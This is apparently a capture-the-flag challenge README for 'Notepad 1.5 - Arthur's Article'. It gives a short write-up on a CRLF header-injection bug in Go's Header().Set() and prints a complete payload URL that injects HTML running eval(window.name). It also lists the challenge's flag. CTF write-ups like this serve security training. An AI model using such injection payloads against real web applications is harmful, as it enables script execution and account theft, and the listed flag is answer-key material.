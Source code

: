 # Notepad 1.5 - Arthur's Article

### Challenge Description

Arthur Morgan was asked to retrieve an important article from Cornwall's computer. Help him steal it. 

### Challenge File
[Source](./Handout/arthursarticle.zip)

### MD5 Hash: 
`24b355cdda9c70bf70b8db4cdcf00bf6`


### Short Writeup

* Exploit CRLF in go's Header().Set() library to inject arbitrary html using the header name. 

* `http://chall.notepad15.gq/find?startsWith=asd&debug=2&A:asd%0AContent-Type:text/html%0A%0A%3Chtml%3E%3Cscript%3Eeval(window.name)%3C/script%3E`


### Author
[Az3z3l](https://twitter.com/Az3z3l)

### Flag
`inctf{red_dead_rezoday_ialmvwoawpwe}`